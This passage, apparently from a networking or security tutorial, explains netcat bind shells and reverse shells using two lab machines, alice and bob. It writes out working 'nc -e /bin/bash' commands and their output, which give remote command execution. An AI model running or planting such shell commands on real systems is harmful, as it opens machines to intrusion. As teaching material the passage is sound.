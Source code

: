 This can be used to run a [simple web server](https://nmap.org/ncat/guide/ncat-tricks.html#ncat-httpserv) for example, but the case that interests us is the execution of remote shells. This topic can go really deep, but here is a quick primer.

### Bind shell

A bind shell is when the shell is executed on the server/listener.
The remote attacker can then simply connect to the port to receive the shell.

```console
vagrant@alice:~$ nc -nvlp 4444 -e /bin/bash
listening on [any] 4444 ...
connect to [192.168.33.210] from (UNKNOWN) [192.168.33.211] 60146
```

```console hl_lines="3"
vagrant@bob:~$ nc -v alice 4444
alice [192.168.33.210] 4444 (?) open
hostname
alice
```

Here, `bob` is the attacker. He connected to `alice` on port 4444 and was able to execute the `hostname` command.

### Reverse shell

As its name implies, a reverse shell is executed on the other side.
The attacker starts its listener, then waits for the victim to send its shell.

```console hl_lines="4"
vagrant@alice:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.33.210] from (UNKNOWN) [192.168.33.211] 35428
hostname
bob
```

```console
vagrant@bob:~$ nc -v alice 4444 -e /bin/bash
alice [192.168.33.210] 4444 (?) open
```

Here, `alice` is the attacker. She started her listener and received the shell from `bob`, allowing her to run the `hostname` command.
